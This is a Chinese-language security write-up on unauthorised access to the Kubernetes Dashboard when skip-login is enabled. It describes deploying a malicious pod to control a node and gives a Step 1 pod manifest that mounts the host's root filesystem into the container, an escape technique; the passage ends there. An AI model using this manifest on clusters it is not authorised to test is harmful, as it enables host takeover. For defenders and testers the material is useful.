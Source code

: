 #### Dashboard 未授权访问

**漏洞描述**  
K8s Dashboard 默认是存在鉴权机制的，用户可以通过 kubeconfig 或者 Token 两种方式登录，当用户开启了 enable-skip-login 时可以在登录界面点击 Skip 跳过登录直接进入 Dashboard，而且有时候可以直接访问 K8s DashBoard，在这种情况下攻击者可以通过部署恶意 Pod 实现控制节点的目的

**漏洞复现**  
K8s DashBoard 未授权访问：  
[![](assets/1701826061-65a9e09e7439892c222a1c90c170485c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025172056-cdc60924-7317-1.png)  
**宿主 Shell**  
Step 1：通过 WEB UI 界面创建一个 pod，并将本地根目录挂载到 pod 的/mnt 目录中

```plain
apiVersion: v1
kind: Pod
metadata:
  name: myapp
spec:
  containers:
  - image: nginx
    name: container
    volumeMounts:
    - mountPath: /mnt
      name: test-volume
  volumes:
  - name: test-volume
    hostPath:
      path: /
```
